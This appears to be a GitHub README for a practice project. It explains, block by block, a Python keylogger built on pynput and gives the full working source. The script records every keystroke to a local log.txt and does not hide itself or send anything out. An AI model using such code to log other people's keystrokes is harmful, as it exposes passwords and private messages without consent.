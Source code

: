 <h1>Keylogger Practice Project</h1>

<h2>Description</h2>
This script is a simple keylogger that captures every key press, and records them in a text file called "log.txt". It imports the necessary modules from the pynput library, which allows it to listen to keyboard inputs. The script defines a function on_press which is called every time a key is pressed. In the function, it first tries to get the character of the key pressed, if it fails it checks if the key pressed is a space, if it is a space it assigns current_key as a space otherwise it assigns current_key as " + str(key) + " ". Then it appends the current key to a global variable called log. It then opens the "log.txt" file, which is created if it does not exist, and writes the key presses to the file. The script starts the keylogger by initializing an empty log list, and creates a keyboard listener that calls the on_press function whenever a key is pressed. The listener is joined so that the script waits for key presses and continues to run until it is interrupted.
<br />


<h2>Environments Used </h2>

- <b>Windows 11</b>

<h2>Program Walkthough Code:</h2>

<b>This first block imports the necessary modules from the pynput library. The pynput library allows for control and monitoring of keyboard and mouse inputs.</b>

```python
import pynput
from pynput import keyboard
```
<b>This block defines the on_press function which will be called every time a key is pressed. The function takes in a key argument which is the key that was pressed. The function first tries to get the char attribute of the key which will give the character representation of the key. If this fails, it means that the key pressed is not a character, so it checks if it's a space and assigns the value " " to the current_key variable. If it's not a space it assigns the key name to the current_key variable.</b>

```python
# function to be called whenever a key is pressed
def on_press(key):
    try:
        current_key = str(key.char)
    except AttributeError:
        if key == key.space:
            current_key = " "
        else:
            current_key = " " + str(key) + " "
```            
<b>This line appends the current key to a global variable named log. This variable stores all the keys pressed.</b>

```python
 # append the current key to a global variable storing the log
    log.append(current_key)
```

<b>This block writes the contents of the log variable to a file named "log.txt". It opens the file in write mode, and for each key stored in the log variable, it removes the single quotes from the key and checks if the key is a space or not. If it's a space, it writes a space to the file. If it's not a space, it writes the key to the file.</b>

```python
 # write the log to a file
    with open("log.txt", "w") as f:
        for key in log:
            k = str(key).replace("'","")
            if k.find("space") > 0:
                f.write(' ')
            elif k.find("Key") == -1:
                f.write(k)
```

<b>This block starts the keylogger by initializing an empty log list, and creates a keyboard listener that calls the on_press function whenever a key is pressed. The listener is joined so that the script waits for key presses and continues to run until it is interrupted.</b>

```python
# start the keylogger
log = []
with keyboard.Listener(on_press=on_press) as listener:
    listener.join()
```    

<b> The final result should look like this:</b>

```python
import pynput
from pynput import keyboard

# import necessary modules

# function to be called whenever a key is pressed
def on_press(key):
    try:
        current_key = str(key.char)
    except AttributeError:
        if key == key.space:
            current_key = " "
        else:
            current_key = " " + str(key) + " "
    # append the current key to a global variable storing the log
    log.append(current_key)
    # write the log to a file
    with open("log.txt", "w") as f:
        for key in log:
            k = str(key).replace("'","")
            if k.find("space") > 0:
                f.write(' ')
            elif k.find("Key") == -1:
                f.write(k)

# start the keylogger
log = []
with keyboard.Listener(on_press=on_press) as listener:
    listener.join()
```
